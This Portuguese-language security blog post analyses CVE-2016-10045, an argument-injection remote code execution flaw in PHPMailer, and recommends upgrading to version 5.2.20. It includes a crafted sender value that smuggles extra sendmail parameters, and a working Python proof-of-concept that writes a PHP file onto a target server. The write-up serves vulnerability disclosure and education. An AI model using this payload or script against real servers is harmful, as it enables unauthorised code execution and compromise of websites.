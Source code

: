 ```yaml
---
layout: post
title: "Análise da CVE-2016-10045: RCE no PHPMailer"
date: 2024-11-06
---
```


A [CVE-2016-10045](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10045)\[1\] é uma vulnerabilidade crítica no [PHPMailer](https://github.com/PHPMailer/PHPMailer)\[2\], que afeta  versões anteriores à 5.2.18, uma biblioteca amplamente utilizada para o envio de e-mails em aplicações escritas em [PHP](https://www.php.net)\[3\]. Essa vulnerabilidade permite que um atacante execute códigos maliciosos em um servidor web comprometido, explorando uma falha de validação de entrada no código do PHPMailer.

Essa publicação está disponível também em: [Inglês](https://blog.lesis.lat/blog/CVE-2016-10045-EN/)

---

**Introdução**

O PHPMailer continua sendo uma das bibliotecas de envio de e-mails mais utilizadas globalmente, com aproximadamente 9 milhões de usuários ao redor do mundo. Além disso, o PHPMailer é empregado em diversos projetos *open-source*, como: WordPress, Drupal, Joolma, entre outros.

Um dos pontos que torna essa vulnerabilidade ainda mais crítica é que, na maioria dos casos, o atacante não precisa ser um usuário autenticado para injetar código malicioso e realizar uma [execução de código remoto (RCE)](https://www.cloudflare.com/en-gb/learning/security/what-is-remote-code-execution/)\[4\] em um servidor web.

Para explorar essa vulnerabilidade, basta ao atacante identificar qualquer campo de formulário que utilize o PHPMailer para o envio de e-mail e, em seguida, enviar o payload.

---

**Descrição**

Essa vulnerabilidade decorre de uma correção inadequada na [CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033)\[5\]. Na versão 5.2.17 do PHPMailer, foi implementada uma sanitização da variável *$Sender* através da função *escapeshellarg()* antes que o valor fosse passado para a função *mail()*. Como resultado, é possível acrescentar uma aspa a mais que não é devidamente escapada, quebrando o fluxo da função *escapeshellarg()*.

**Por exemplo:**

```php
$mail \-\> SetFrom("\\"Attacker\\\\' \-Param2 \-Param3\\"@test.com", 'Client Name');
```

Irá resultar na seguinte lista de argumentos sendo passada para o programa de envio de e-mails:

```
Arg no. 0 \== \[/usr/sbin/sendmail\]  
Arg no. 1 \== \[-t\]  
Arg no. 2 \== \[-i\]  
Arg no. 3 \== \[-f\\"Attacker\\\\\\\]  
Arg no. 4 \== \[-Param2\]  
Arg no. 5 \== \[-Param3"@test.com'\]
```

O atacante pode passar o parâmetro **\-X** para escrever um *log* contendo código PHP arbitrário, o que torna as versões anteriores à **5.2.20** vulneráveis à execução remota de código (RCE).

---

**Prova de Conceito**

Script em Python que explora a vulnerabilidade:

```python
#!/usr/bin/env python3  
import requests  
import argparse  
import re  
def exploit(url, dir):  
    if not re.match(r'^https?://', url):  
        url \= f"https://{url}"  
    payload \= "\\"attacker\\\\' \-oQ/tmp/ \-X%s/phpcode.php  some\\"@email.com" % dir  
    code \= "\<?php phpinfo(); ?\>"  
      
    data \= {'action': 'send', 'name': 'LESIS', 'email': payload, 'msg': code}  
      
    response \= requests.post(url, data=data)  
      
    if response.status\_code \== 200:  
        print("Exploitation successful\!")  
    else:  
        print("Exploitation failed.")  
def main():  
    parser \= argparse.ArgumentParser(description='CVE-2016-10045 | PHPMailer')  
    parser.add\_argument('-t', '--target', required=True, help='Target URL')  
    parser.add\_argument('-d', '--dir', required=True, help='Remote recording directory')  
    args \= parser.parse\_args()  
      
    if args.target and args.dir:  
        exploit(args.target, args.dir)  
if \_\_name\_\_ \== '\_\_main\_\_':  
    main()
```

---

**Conclusão**

A vulnerabilidade decorre de uma falha na sanitização de parâmetros de entrada no PHPMailer, permitindo que atacantes executem código malicioso em servidores web comprometidos. Isso representa um risco significativo, já que a exploração pode ser realizada sem a necessidade de autenticação, possibilitando a injeção de código remoto (RCE) em aplicações vulneráveis.

Os potenciais impactos de uma exploração bem-sucedida incluem a execução de código arbitrário, que pode resultar em comprometimento da segurança e acesso não autorizado a informações sensíveis.

A mitigação recomendada é atualizar o PHPMailer para a versão 5.2.20 ou superior.

---

**Referências**

* \[1\] [MITRE \- CVE-2016-10045](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10045)  
* \[2\] [GitHub \- PHPMailer: A full-featured email creation and transfer class for PHP](https://github.com/PHPMailer/PHPMailer)  
* \[3\] [PHP \- A popular general-purpose scripting language](https://www.php.net)  
* \[4\] [Cloudflare \- What is remote code execution?](https://www.cloudflare.com/en-gb/learning/security/what-is-remote-code-execution/)  
* \[5\] [MITRE \- CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033)
